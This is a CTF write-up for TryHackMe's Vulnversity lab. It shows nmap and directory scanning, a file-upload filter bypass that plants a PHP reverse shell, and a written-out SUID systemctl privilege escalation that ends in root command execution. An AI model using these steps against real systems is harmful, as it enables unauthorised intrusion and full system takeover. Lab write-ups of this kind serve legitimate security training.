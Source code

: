 Writeup for Tryhackme Vulversity ctf challenge.

Prerequisites

I would recommend that you should have basic knowledge of the following, it’s not necessary but it will help you to solve the tasks more effectively and efficiently
>Nmap
>Directory Busting
>Burpsuit
>Linux file systems, Permissions, SETUIDs, environmental variables, etc



![vulnversityinfo](https://user-images.githubusercontent.com/64267672/125898695-f9675392-6613-46e3-a863-3854441856a4.png)




Starting with an nmap scan foinformation gathering;
![vulnversitynmap](https://user-images.githubusercontent.com/64267672/125898736-ce5c5152-0a60-499b-8697-f8995f410a56.png)


Looking at the web server on port 3333 & we have this;
![vulnversityweb](https://user-images.githubusercontent.com/64267672/125899869-bb9d8ff0-7dc2-4044-90bf-daa20a41838d.png)


Now bruteforcing for interesting directories some;
![vulnversitybuster](https://user-images.githubusercontent.com/64267672/125899970-b95c697f-7942-4e34-999b-2339170d23d2.png)

we see that there's a hidden '/uploads' directory indside of '/internal' directory all in the web server on port 3333


visiting the /internal directory reveals to us the upload feature of the website
![vulnversityinternal](https://user-images.githubusercontent.com/64267672/125900826-db85ce15-de0b-4b34-9787-21d12c21c5f5.png)


Most time the upload feature of a website can be vulnurable & an attacker can try to upload malicious content into the server just like I'm gonna do. Now i can try to upload a reverse shell;
![vulnversityupload](https://user-images.githubusercontent.com/64267672/125900859-bfcc73fb-b018-4113-9c6e-76271ef6ab2e.png)

(Before upload)

Ok so we get our php reverse shell ready with the listening ip address & port number (attacker's);
![vulnversityphpshell](https://user-images.githubusercontent.com/64267672/125902181-25e10dc9-c785-4529-8f60-ed78cbd19176.png)

ok we can start testing the upload feature with whatever file extentions you prefer, but i started with a .php file extention but .php file extention is being filtered apparently;
![vulnversityphpfilter](https://user-images.githubusercontent.com/64267672/125902716-2e26df2e-af66-49c2-a4dc-17decaf0109d.png)


But GOODNEWS!! This can be bypassed. 
![vulnversityphpfile](https://user-images.githubusercontent.com/64267672/125903288-51289c6c-49fb-4cfc-a37a-131321557c9e.png)


ok so making a list of the file extentions i can bruteforce & see which works ok;
![vulnversityburpfile](https://user-images.githubusercontent.com/64267672/125903670-2da7cd4a-8ed0-4b45-a865-120d90763358.png)


![vulnversityburp](https://user-images.githubusercontent.com/64267672/125903779-ee8c47fe-5ed9-4c7d-a0dd-b22c218dadf9.png)


Now we have a result & 1 lucky hit;
![vulnversityintrud](https://user-images.githubusercontent.com/64267672/125903949-5833a289-3298-4f09-9829-7f7b37bfbb2c.png)


so we now what file extention to save our reverse shell now, so we try to upload malicios file but this time saving it as .phtml;
![vulnversityphpsuccess](https://user-images.githubusercontent.com/64267672/125904448-4d7fa0cc-276c-4725-87df-49f6a6c86b52.png)

And here we go!!
we can find our file in /uploads directory;
![vulnversityfileupload](https://user-images.githubusercontent.com/64267672/125904738-c2c6ddb5-e50c-4902-a00d-48793a1b8caf.png)

Now we can setup our netcat listener to listen on the specified port we set on our reverse shell script, mine being port 1337;
![vulnversitynetcat](https://user-images.githubusercontent.com/64267672/125905190-a7dc5352-eb12-449d-895e-24a60502cfe9.png)

BOOM!! we have a shell as www-data user;
![vulnversityshell](https://user-images.githubusercontent.com/64267672/125905454-9ec6b6f9-0dd4-40b9-a31b-484914bc3359.png)

now to escalate to higher privilege (root);
You can use any of the popular enumerations scripts available .
We are looking for a file that has the setuid bit set (In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it)

```www-data@vulnuniversity:/home/bill$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
< \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null              
-rwxr-sr-x 1 root tty 27368 May 16  2018 /usr/bin/wall
-rwxr-sr-x 1 root tty 14752 Mar  1  2016 /usr/bin/bsd-write
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwxr-sr-x 1 root mlocate 39520 Nov 18  2014 /usr/bin/mlocate
-rwxr-sr-x 1 root shadow 62336 May 16  2017 /usr/bin/chage
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwxr-sr-x 1 root utmp 434216 Feb  7  2016 /usr/bin/screen
-rwxr-sr-x 1 root ssh 358624 Jan 31  2019 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwxr-sr-x 1 root crontab 36080 Apr  5  2016 /usr/bin/crontab
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwxr-sr-x 1 root shadow 22768 May 16  2017 /usr/bin/expiry
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jan 15  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 51464 Jan 14  2016 /usr/bin/at
-rwsr-sr-x 1 root root 98440 Jan 29  2019 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 76408 Jul 17  2019 /usr/lib/squid/pinger
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwxr-sr-x 1 root utmp 10232 Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwxr-sr-x 1 root shadow 35600 Apr  9  2018 /sbin/unix_chkpwd
-rwxr-sr-x 1 root shadow 35632 Apr  9  2018 /sbin/pam_extrausers_chkpwd
-rwsr-xr-x 1 root root 35600 Mar  6  2017 /sbin/mount.cifs
www-data@vulnuniversity:/home/bill$ 
```
We can see that /bin/systemctl stands out from the rest;

```systemctl is a binary that controls interfaces for init systems and service managers. Remember making your services run using the systemctl command during the boot time. All those tasks are handled as units and are defined in unit folders. By default systemctl will search these files in /etc/system/systemd```

With help of Gtfobins, we can execute commands as root & we are ROOT!

```www-data@vulnuniversity:/opt$ priv=$(mktemp).service
priv=$(mktemp).service
www-data@vulnuniversity:/opt$ echo '[Service]
echo '[Service]
> ExecStart=/bin/bash -c "id > /opt/flags"
ExecStart=/bin/bash -c "id > /opt/flags"
> [Install]
[Install]
> WantedBy=multi-user.target' > $priv
WantedBy=multi-user.target' > $priv
www-data@vulnuniversity:/opt$ /bin/systemctl link $priv
/bin/systemctl link $priv
Created symlink from /etc/systemd/system/tmp.JkIyFRM4eb.service to /tmp/tmp.JkIyFRM4eb.service.
www-data@vulnuniversity:/opt$ /bin/systemctl enable --now $priv
/bin/systemctl enable --now $priv
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.JkIyFRM4eb.service to /tmp/tmp.JkIyFRM4eb.service.
www-data@vulnuniversity:/opt$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@vulnuniversity:/opt$ cd /root
cd /root
bash: cd: /root: Permission denied
www-data@vulnuniversity:/opt$ ls
ls
flag  flags
www-data@vulnuniversity:/opt$ cat flags
cat flags
uid=0(root) gid=0(root) groups=0(root)
```

###References-

```https://tryhackme.com/room/vulnversity
https://gtfobins.github.io/gtfobins/systemctl/#suid
